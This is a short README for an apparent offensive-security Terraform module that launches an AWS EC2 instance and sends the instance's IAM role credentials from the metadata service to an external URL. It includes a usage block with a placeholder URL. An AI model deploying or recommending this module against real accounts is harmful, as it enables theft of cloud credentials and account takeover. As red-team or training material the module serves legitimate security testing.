 # AWS EC2 Instance Credential Exfiltration Module

![OffensiveTerraform](https://img.shields.io/badge/hack-success)
![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-blueviolet)

Offensive Terraform module which creates EC2 instance and exfiltrate credential from Instance metadata to external URL.

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-ec2-instance-credential-exfiltration/master/diagram.jpg)

## Usage
```
module "ec2_instance_credential_exfiltration" {
    source  = "offensive-terraform/ec2-instance-credential-exfiltration/aws"

    subnet_id = "subnet-0a4a1cc04"
    url = "http://0.0.0.0/"
    iam_role= "ec2-instance-role"
    iam_instance_profile = "ec2-instance-profile"
}
```
## Author
Module managed by https://github.com/iganbold